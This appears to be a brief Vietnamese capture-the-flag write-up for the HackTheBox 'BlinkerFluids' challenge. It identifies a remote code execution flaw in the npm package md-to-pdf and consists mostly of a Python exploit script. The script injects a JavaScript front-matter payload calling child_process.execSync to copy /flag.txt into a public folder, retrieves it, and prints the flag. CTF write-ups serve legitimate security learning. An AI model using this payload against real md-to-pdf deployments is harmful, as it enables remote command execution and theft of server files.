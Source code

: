 # BlinkerFluids

package `md-to-pdf` bị lỗi [RCE](https://snyk.io/test/npm/md-to-pdf/4.1.0).

script:
```py
import requests

s = requests.Session()

burp0_url = "http://138.68.189.179:31547"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://64.227.37.214:32653", "Referer": "http://64.227.37.214:32653/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
burp0_json={"markdown_content": "---js\n((require(\"child_process\")).execSync(\"cat /flag.txt > /app/static/flag.txt \"))\n---RCE"}
s.post(burp0_url + "/api/invoice/add", headers=burp0_headers, json=burp0_json)

r = s.get(burp0_url + "/static/flag.txt", headers=burp0_headers,)

print(r.text)
```

**HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls**
